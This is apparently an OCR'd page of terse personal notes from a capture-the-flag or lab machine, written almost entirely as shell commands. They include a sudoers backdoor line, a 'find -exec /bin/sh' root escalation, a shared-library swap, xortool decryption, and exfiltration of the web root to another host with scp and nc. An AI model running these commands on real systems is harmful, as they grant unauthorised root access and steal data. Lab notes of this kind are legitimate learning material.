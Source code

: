 rm .bashrhc
nano /opt/brilliant_script.sh

#!/bin/sh

echo "alex ALL=(ALL:ALL) ALL" >> /etc/sudoers; 

sudo find /etc/passwd -exec /bin/sh \; => root

service ssh start
service cron start
httpd-foreground
-- 단서 ? 

cd /lib/x86_64-linux-gnu
sudo mv oldliblogging.so liblogging.so

/root/.ssh/authorized_keys 

strings fixutil | grep "fixutil"

/usr/local/apache2/htdocs/ 
/opt/.fixutil/
/opt/.fixutil/backup.txt  --> key 

xortool -d reallyimportant.txt myfile.txt

AdsipPewFlfkmll

scp * alex@10.10.204.111:/home/alex/

150c1a1a5024000f324c02040e1901240a074919234505230d0a07144c052c141c1b04310b0368662f4b05031c24441d0604380c19214c0e0a1d1c092f17531d1f700c037d4c2f4b0e0d026610530b153117573204034b19040334031b1d503f03572a03091804020b610d0747

nc -lvp 9007 > backup.tar 
cd /usr/local/apache2/htdocs 
tar -cvf backup.tar * 
nc 10.10.74.101 9007 < backup.tar
